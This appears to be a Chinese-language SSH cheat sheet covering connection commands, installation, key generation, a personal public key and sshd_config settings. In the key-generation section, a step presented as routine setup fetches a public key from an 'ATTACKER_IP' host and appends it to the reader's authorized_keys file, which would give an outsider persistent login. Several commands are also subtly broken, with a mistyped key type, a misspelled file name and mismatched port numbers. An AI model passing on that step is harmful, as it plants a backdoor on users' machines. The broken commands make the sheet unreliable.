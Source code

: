 # SSH
## 基础命令
```sh
# 直接连接
ssh username@ip
# 使用非默认端口
ssh username@domain -p port
# 使用代理主机
ssh -J proxy-server:22 target-server 
# 将服务器的 2222 端口转发到本地的 3333 端口 
ssh -R 2222:localhost:333 username@domain 
```

## 安装
```sh
# Client:
sudo apt-get install ssh 
# Server:
sudo apt-get install openssh-server
```

## 生成密钥
1. `ssh-keygen -t ras -C "email" `
2. 位置：
   + 私钥：`~/.ssh/id_rsa`
   + 公钥：`~/.ssh/id_rsa.pub`
3. Git 服务密钥配置地址：
   + https://github.com/settings/keys
   + https://gitee.com/profile/sshkeys
4. 写入主机的 authorized_keys：
`curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authotized_keys`

我的公钥：
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj8b9SWuI/oKquMiy+vOSOOcokMF6XkUkc7TlX33bIy3xK5l8rgJ2CAJ+xORAA2JJzwXdu8AMDsFfk8DHMj7kcs/K505iMpiIGhUWHXkl+UiIhD+B/v9KIv4jQQF9wmJR/jaw8MdHyUXZA2maV6sY41swoRPyAtYb6HW/32pWsqsDq2DeQQyARqiPpV0pcFV3BXK0nOBl8+W9HjP8rYBFbXIfpXTvhSrzOz+NXoV8E8/w7/jD5YDPbMQ16FPQzk3CVT4pUL4x1nOqxFgvLbiwfPsAWF6a2Lr6A8ZcU5AUI2GC5+X6r47KlGUl0mtTOkarBkJ91+a//JFHmstrLrKyV JustSong@MyPC
```

可以使用 `ssh-copy-id username@remote_host` 很方便地为远超主机配置密钥访问。
如果需要指定公钥，使用 `-i` 即可。
如果需要指定端口，使用 `-p` 即可。

## 配置
```sh
sudo vi /etc/ssh/sshd_config 

## 允许root登录 
PermitRootLogin yes 
## 使用密钥登录 
RSAAuthentication yes 
PubkeyAuthentication yes 
## 禁止空密码和密码登录 
PermitEmptyPasswords no 
PasswordAuthentication no 
## 监听端口（一般默认是 22，或者是自己已开的端口，不改即可） 
Port 22 
```
修改完配置之后重启以应用更改：`sudo service ssh restart`
